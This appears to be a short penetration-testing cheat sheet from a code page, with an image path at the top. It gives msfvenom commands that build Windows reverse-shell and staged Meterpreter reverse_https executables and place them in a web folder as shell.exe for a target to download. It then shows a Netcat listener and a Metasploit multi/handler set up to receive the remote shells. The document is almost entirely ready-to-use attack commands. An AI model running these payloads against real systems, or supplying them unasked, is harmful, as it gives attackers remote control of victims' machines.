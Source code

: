 # Create a regular non-staged executable
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=444 -f exe -o /var/www/html/shell.exe
```

# Set up Netcat listener
```
nc -lvnp 444
```

Use a browser to download the executable and handle the new netcat session

# Create a x64 staged payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f exe -o /var/www/html/shell.exe
```

# Set up Meterpreter
```
bash$ msfconsole -q
msf> use multi/handler
msf> set payload windows/x64/meterpreter/reverse_https
msf> set lhost 192.168.0.1
msf> set port 443
msf> run
```

